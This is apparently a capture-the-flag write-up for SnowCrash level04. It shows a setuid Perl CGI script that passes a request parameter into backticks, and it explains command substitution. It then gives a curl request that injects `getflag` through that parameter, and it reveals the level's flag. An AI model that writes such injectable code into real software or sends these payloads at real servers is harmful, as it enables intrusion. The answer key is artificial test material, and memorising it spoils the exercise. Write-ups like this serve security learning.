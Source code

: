 
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl


that the code in level04.pl 
```
#!/usr/bin/perl
# localhost:4747

use CGI qw{param};

# Set the content type of the response to text/html
print "Content-type: text/html\n\n";

# Define the subroutine x
sub x {
  $y = $_[0];
  # Execute the command "echo $y" and capture the output
  print `echo $y 2>&1`;
}

# Call the subroutine x with the value of the parameter "x" from the request
x(param("x"));
```

after see open port 

ss -a
![ss-command.png](https://i.postimg.cc/FhssNh7r/ss-command.png)


level04@SnowCrash:~$ ss -a
State       Recv-Q Send-Q                                                                                   Local Address:Port                                                                                       Peer Address:Port   
LISTEN      0      128                                                                                                 :::4646                                                                                                 :::*       
LISTEN      0      128                                                                                                 :::4747                                                                                                 :::*       
LISTEN      0      128                                                                                                 :::http                                                                                                 :::*       
LISTEN      0      128                                                                                                 :::4242                                                                                                 :::*       
LISTEN      0      128                                                                                                  *:4242                                                                                                  *:*       
LISTEN      0      32                                                                                           127.0.0.1:pcrd                                                                                                  *:*       
ESTAB       0      0                                                                                         192.168.1.12:4242                                                                                        192.168.1.9:54398 

after testing port 4747 and having a webserver listen to that port we can go know to code and test "x(param("x"));" and try to pass parameter x pass some arg to print `echo $y 2>&1`; 
we can see for example : http://localhost:4747/level04.pl?x=abc the abc output is "abc" .

let to explain 
print `echo $y 2>&1`; 
In the Bash shell, the backtick character (`) is used to perform command substitution. It allows you to execute a command within a command and capture the output of that command.
Alternatively, you can also use the modern syntax $() for command substitution, which provides better readability and can be nested more easily:
that means if we send a request with parameter x=`ls` that "ls" now not an argument for echo is another command.
now let have the flag and go to anther level
we can use : curl 'http://localhost:4747/level04.pl?x=`getflag`'
and the flag is : ne2searoevaevoem4ov4ar8ap

